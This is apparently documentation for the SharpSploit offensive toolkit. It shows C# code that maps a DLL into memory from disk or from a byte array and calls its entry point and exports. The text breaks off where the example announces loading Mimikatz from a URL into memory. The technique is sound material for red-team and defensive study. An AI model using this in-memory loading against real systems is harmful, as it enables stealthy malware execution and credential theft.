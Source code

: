 ### Example - Calling Exports from Memory

We go into more detail on manual mapping in our separate blog post, but here is just a sample of what you could do with the capabaility.

```csharp

using System;
using System.Runtime.InteropServices;

namespace MapTest
{
    class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int MessageBox(IntPtr hWnd, String text, String caption, int options);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int TestFunc();

        static void Main(string[] args)
        {
            //Test DLL project can be found at: https://github.com/FuzzySecurity/DLL-Template

            Console.WriteLine("[+] Mapping Test DLL from disk into memory!");

            Console.WriteLine("\t[+] Calling Test DLL from memory by DLLMain...\n");
            // (1) Call test DLL by DLLMain
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");
```